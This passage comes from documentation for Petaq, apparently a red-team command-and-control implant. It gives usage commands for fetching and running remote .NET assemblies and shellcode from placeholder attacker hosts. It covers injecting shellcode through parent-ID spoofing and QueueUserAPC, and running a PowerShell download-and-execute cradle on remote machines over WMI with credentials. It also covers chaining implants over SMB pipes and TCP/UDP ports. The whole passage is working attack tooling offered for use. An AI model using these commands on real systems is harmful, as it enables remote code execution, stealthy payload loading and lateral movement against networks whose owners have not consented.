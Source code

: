 ```
exec-sharpassembly url http://YOURIP:YOURPORT/Assembly.exe Parameters
exec-sharpassembly base64 http://YOURIP:YOURPORT/Assembly.b64 Parameters
```
## Load and Run Shellcode (Parent ID spoofing and QueueUserAPC)
Petaq is able to load a shellcode from a remote location, and run it through a new process created suspended with parent ID spoofing and QueueUserAPC. This is useful to invoke other C2s or unmanaged applications
```
exec-shellcode base64 http://127.0.0.1/Shellcode.b64 ARCH64 T1
exec-shellcode base64 http://127.0.0.1/Shellcode.b64 ARCH32 T2
```

# Lateral Movement Features
## WMI Command Execution
Petaq is able to run command on remote machines through WMI process create calls. This can be used as a lateral movement method such as running the initial execution PowerShell scripts as below. 
```
lateralmovement wmiexec domain=DOMAIN username=USER password=PASSWORD host=TARGETIP command="powershell –c $m = new- object net.webclient;$Url = 'http://YOURIP:YOURPORT';$dba =$m.downloaddata($Url);$a =[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))"
```
## Alternative Mitre Att&ck Techniques for Execution
Even though Petaq currently doesn't support any other lateral movement options internally, Windows does have enough tools to replicate the following Mitre Att&ck TTPs. In future, Petaq will have some of those techniques, especially DCOM. 
* T1175 - Component Object Model and Distributed COM
* T1021 - Remote Services
* T1077 - Windows Admin Shares
* T1028 - Windows Remote Management
* T1053 - Scheduled Task

# Implant to Implant Linking
## Running Petaq Implant as Listener
In addition to the direct Websocket connections to the C2, the Petaq implant can also link other Petaq implants on the remote network, or listen to a TCP/UDP port or SMB Named Pipe for linking. It's possible to run Petaq implant on a remote system through the Lateral Movement techniques explained above, to listen other Petaq implant connections. The following model can be used with run arguments.
```
C2 <------Websocket------>Petaq Implant<-----SMB Named Pipe----->Petaq Implant
                                       <-----TCP Port----------->Petaq Implant
                                       <-----UDP Port----------->Petaq Implant
```

Running Petaq Implant as Listener using Arguments
* Run Petaq implant to listen to the TCP port 8000
```
petaqimplant.exe tcp 8000
```
* Run Petaq implant to listen to the UDP port 8000
```
petaqimplant.exe udp 8000
```
* Run Petaq implant to listen to the SMB Named Pipe given as a parameter
```
petaqimplant.exe smb petaq_comm
```
